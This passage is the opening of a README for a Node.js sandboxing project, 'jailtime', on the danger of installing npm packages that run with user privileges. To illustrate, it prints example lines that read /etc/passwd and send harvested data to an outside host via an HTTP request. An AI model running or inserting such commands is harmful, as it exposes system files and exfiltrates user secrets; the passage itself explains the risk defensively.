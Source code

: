 # jailtime

The node ecosystem is amazing because it's very likely that there's already a lib out there that does what you want. However, it should also pretty scary to install such library because you're going to run arbitrary code with your user priviledges. Node lets you read arbitrary files, execute arbitrary external processes and connect to the internet.

For example, one could read the password files off your computer and send it to a website:

```js
require('fs').readFileSync('/etc/passwd', 'utf8');
require('child_process').execSync('cat /etc/passwd').toString();
require('http').get('http://vjeux.com/?harvest=' + getPassword());
```

Unfortunately it's 
